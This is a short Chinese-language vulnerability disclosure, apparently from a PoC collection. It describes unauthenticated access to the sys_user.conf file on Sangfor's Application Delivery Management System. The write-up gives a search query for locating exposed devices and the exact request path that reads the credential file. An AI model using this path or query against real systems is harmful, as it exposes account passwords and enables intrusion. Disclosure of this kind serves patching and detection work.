 # 深信服 应用交付管理系统 sys_user.conf 账号密码泄漏漏洞

# 深信服 应用交付管理系统 sys_user.conf 账号密码泄漏漏洞

## 漏洞描述

深信服 应用交付管理系统 文件sys_user.conf可在未授权的情况下直接访问，导致账号密码泄漏

## 漏洞影响

```
深信服 应用交付管理系统
```

## 网络测绘

```
app="SANGFOR-应用交付管理系统"
```

## 漏洞复现

登录页面

![image-20220525145113865](/images/202205251451936.png)

验证POC

```
/tmp/updateme/sinfor/ad/sys/sys_user.conf
```

![image-20220525145136819](/images/202205251451862.png)

